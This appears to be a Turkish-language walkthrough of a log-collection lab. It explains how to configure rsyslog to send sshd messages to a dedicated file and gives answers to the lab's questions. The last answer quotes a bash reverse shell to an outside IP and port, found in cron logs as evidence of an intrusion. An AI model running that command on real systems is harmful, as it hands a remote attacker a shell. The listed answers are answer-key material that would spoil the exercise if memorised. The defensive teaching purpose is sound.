 İzlemeyi Ayarlayın: Belirtilen olaylar için gerçek zamanlı izleme ve uyarılar sağlayan araçları kullanın.

Olay Yönetimiyle Entegrasyon: Merkezi sisteminizin, yerleşik herhangi bir olay yönetimi aracı veya protokolüyle sorunsuz bir şekilde entegre olabileceğinden emin olun.

Pratik Etkinlik: rsyslog ile Kayıt(Log) Toplama

Bu etkinlik rsyslog'u tanıtmayı ve günlüklerin merkezileştirilmesini ve yönetimini nasıl geliştirebileceğini göstermeyi amaçlamaktadır. 
Toplama sürecinin bir parçası olarak, rsyslog'u tüm sshd mesajlarını /var/log/websrv-02/rsyslog_sshd.log gibi belirli bir dosyaya kaydedecek şekilde yapılandıracağız. 
Bunu başarmak için aşağıdaki adımlar izlenebilir:
Bir Terminal açın.

Rsyslog'un Yüklü Olduğundan Emin Olun: Rsyslog'un yüklü olup olmadığını şu komutu çalıştırarak kontrol edebilirsiniz: 
sudo systemctl status rsyslog

Bir Yapılandırma Dosyası Oluşturun: Aşağıdaki yapılandırma dosyasını oluşturmak için bir metin düzenleyici kullanın:
gedit /etc/rsyslog.d/98-websrv-02-sshd.conf, nano /etc/rsyslog.d/98-websrv-02-sshd.conf, vi /etc/rsyslog.d/98-websrv-02-sshd.conf veya vim /etc/rsyslog.d/98-websrv-02-sshd.conf

Yapılandırmayı Ekleyin: Sshd mesajlarını belirli log dosyasına yönlendirmek için /etc/rsyslog.d/98-websrv-02-sshd.conf dosyasına aşağıdaki satırları ekleyin:
$FileCreateMode 0644:programname, isequal, "sshd" /var/log/websrv-02/rsyslog_sshd.log

Yapılandırma Dosyasını Kaydedin ve Kapatın.

rsyslog'u yeniden başlatın: rsyslog'u şu komutla yeniden başlatarak değişiklikleri uygulayın: sudo systemctl restart rsyslog

Yapılandırmayı Doğrulayın: Yapılandırmanın çalıştığını, ssh localhost üzerinden localhost'a bir SSH bağlantısı başlatarak veya bir veya iki dakika sonra kayıt dosyasını kontrol ederek doğrulayabilirsiniz.

![websvr](https://github.com/user-attachments/assets/0c3380ad-e220-438a-a06d-b05ceb12a845)

ÖNEMLİ: Eğer kayıtların uzaktan iletilmesi yapılandırılmamışsa, kayıtların manuel olarak toplanması için scp / rsync gibi araçlar kullanılabilir.
**sshd için rsyslog yapılandırıldıktan sonra, /var/log/websrv-02/rsyslog_sshd.log konumundaki sshd günlüklerinde başarısız oturum açma girişimlerini veya kaba kuvvet saldırısını gösteren kullanıcı adı tekrar tekrar hangisidir?**
**Cevap:**    stansimon

![stanmison](https://github.com/user-attachments/assets/cf03268a-581f-4575-be30-a4bd61f194c9)

** Cron mesajlarını izlemek için kullanılan rsyslog yapılandırma dosyası /etc/rsyslog.d/99-websrv-02-cron.conf'a göre SIEM-02'nin IP adresi nedir?**
**Cevap:**  10.10.10.101

![syslog_d](https://github.com/user-attachments/assets/057385cd-5595-4aae-9cb2-16350574339f)


** /var/log/websrv-02/rsyslog_cron.log dosyasında oluşturulan günlüklere dayanarak, kök kullanıcı tarafından hangi komut yürütülüyor?**
**Cevap:** /bin/bash -c "/bin/bash -i >& /dev/tcp/34.253.159.159/9999 0>&1"
![srvweb](https://github.com/user-attachments/assets/072fcb98-4725-4b8a-a2e0-cb44c2f08f15)
